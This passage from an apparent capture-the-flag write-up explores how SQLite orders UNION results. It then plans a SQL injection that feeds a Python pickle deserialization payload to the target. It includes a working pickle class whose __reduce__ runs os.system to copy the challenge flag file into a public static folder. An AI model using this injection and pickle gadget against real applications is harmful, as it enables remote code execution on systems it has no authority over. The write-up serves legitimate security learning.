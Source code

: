 I also ran the entrypoint script, as this will do all the migration stuff and create the schema in the database.

```python

app # python
Python 3.8.16 (default, Dec  8 2022, 03:43:16) 
[GCC 12.2.1 20220924] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 
>>> import sqlite3
>>> con = sqlite3.connect('cop.db')
>>> 
>>> con.execute("SELECT 'I am first' UNION SELECT 'I am last'").fetchall()
[('I am first',), ('I am last',)]
>>> 

```

As expected, the string before the `UNION` comes first, and the string after `UNION` comes last.

Now see the MAGIC!!

```python

>>> con.execute("SELECT data FROM products WHERE id = '1' UNION SELECT 'I am supposed to come last, what the heck!!'").fetchall()
[('I am supposed to come last, what the heck!!',), ('gASVoAAAAAAAAACMFGFwcGxpY2F0aW9uLmRhdGFiYXNllIwESXRlbZSTlCmBlH2UKIwEbmFtZZSMDFBpY2tsZSBTaGlydJSMC2Rlc2NyaXB0aW9ulIwZR2V0IG91ciBuZXcgcGlja2xlIHNoaXJ0IZSMBWltYWdllIwfL3N0YXRpYy9pbWFnZXMvcGlja2xlX3NoaXJ0LmpwZ5SMBXByaWNllIwCMjOUdWIu',)]
>>> 

```

When we used a query on the `products` table with `WHERE` clause, the string after `UNION` comes first in the output and the output of the original query before the `UNION` comes at last.

This behaviour can be used to our advantage. We can use `UNION` in the SQL injection to inject our deserialization payload, and by this behaviour the injected payload will be deserialized and we might get code execution.

# CRAFTING DESERIALIZATION PAYLOAD

I do not intend to spend much time in explaining deserialization in pickle.

You can refer to this [guide](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) for specifics about the topic.

Let me give you an overview: while deserializing a pickled python class, if there is a `__reduce__` method defined in the class, it is supposed to return a function along with a tuple of arguments. Finally, the returned function is called, with the arguments in the returned tuple. This essentially gives us the potential to achieve code execution.

```python

import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('cp /app/flag.txt /app/application/static/flag.txt')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
```